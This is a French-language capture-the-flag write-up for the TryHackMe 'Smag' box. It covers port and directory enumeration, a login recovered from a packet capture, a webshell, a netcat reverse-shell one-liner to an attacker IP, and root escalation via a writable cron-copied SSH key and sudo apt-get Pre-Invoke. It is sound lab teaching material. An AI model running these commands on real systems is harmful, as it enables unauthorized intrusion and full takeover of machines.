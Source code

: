 # Smag
Bon petit chall facile !

# Enumeration
## Nmap
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-10 07:49 EDT
WARNING: Running Nmap setuid, as you are doing, is a major security risk.

Nmap scan report for 10.10.141.12
Host is up (0.040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.14 seconds
```
## Gobuster 
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/mail                 (Status: 301) [Size: 311] [--> http://10.10.141.12/mail/]

```

# Exploit
On trouve donc une page /mail. On va voir ce qu'elle contient.
On retrouve un fichier .pcap, et les mails parle d'un bug pendant le download du fichier, peut-être une piste ?

## .pcap
On y retrouve une connexion sur le site **development.smag.thm**
```
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=helpdesk&password=c***********0wHTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8

```
On retrouve donc :

Un domaine : 
```
development.smag.thm
```
Un compte : 
```
username=helpdesk
password=c********0w
```
On va donc ajouter ce domaine dans le fichier hosts et voir un peu ce qu'il y a derriere....

On arrive sur un webshell une fois log.
# Revshell
Vu qu'on a accès a un webshell, on va s'ouvrir un rshell plus sympa.

Payload :
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.14.59.209 1234 >/tmp/f
```
Et nous voila sur le serveur
```
──(kali㉿kali)-[~/Challenge/TryHackMe/Smag]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.14.59.209] from (UNKNOWN) [10.10.141.12] 42934
bash: cannot set terminal process group (707): Inappropriate ioctl for device
bash: no job control in this shell
www-data@smag:/var/www/development.smag.thm$ 

```
# Privesc
En regardant un peu sur la machine, je vois dans les taches cron la copie d'une clé ssh public
```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC5HGAnm2nNgzDW9OPAZ9dP0tZbvNrIJWa/swbWX1dogZPCFYn8Ys3P7oNPyzXS6ku72pviGs5kQsxNWpPY94bt2zvd1J6tBw5g64ox3BhCG4cUvuI5zEi7y+xnIiTs5/MoF/gjQ2IdNDdvMs/hDj4wc2x8TFLPlCmR1b/uHydkuvdtw9WzZN1O+Ax3yEkMfB........[REDACTED].......gt6WtPYxmtv1AHE4VdD6xFJrM5CGffGbYEQjvJoFX2+vSOCDEFZw1SjuajykOaEOfheuY96Ao3f41m2Sn7Y9XiDt1UP4/Ws+kxfpX2mN69+jsPYmIKY72MSSm27nWG3jRgvPZsFgFyE00ZTP5dtrmoNf0CbzQBriJUa596XEsSOMmcjgoVgQUIr+WYNGWXgpH8G+ipFP/5whaJiqPIfPfvEHbT4m5ZsSaXuDmKercFeRDs= kali@kali
```
Je constate aussi qu'on peu modifier le fichier comme on peu le voir ici:
```
-rw-rw-rw- 1 root root  563 Jun  5  2020 jake_id_rsa.pub.backup
```
je vais donc généré ma propre clé ssh pour avoir un accès sur le serveur.
```
ssh-keygen -t rsa -b 4096 -C "pwn@huehue.com"
```
ensuite, je copie la clé public dans le fichier jake_id_rsa.pub.backup, la tâche cron se chargera de la copier dans le fichier authorized_keys qui ce trouve dans le dossier /home/jake/.ssh.
```
echo "ma super clé secure" > jake_id_rsa.pub.backup
```
ensuite j'essaye de me connecté avec ma clé ssh:
```
ssh -i key jake@10.10.142.12
```
et me voici sur le serveur en ssh avec le compte de jake
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Smag/sshkey]
└─$ ssh -i key jake@10.10.141.12
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$ 
````
On trouve ainsi le 1er flag :
```
jake@smag:~$ cat user.txt 
iusG********************U3j
```

# Privesc to root !
En regardant les droits avec **sudo -l**
```
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
On peux voir qu'il peux utilser **/usr/bin/apt-get** en tant que root, et sans mot de passe !

On peux donc invoquer un shell root en utilisant apt-get:
```
jake@smag:~$ sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
uJr6zR******************BKz2T
```
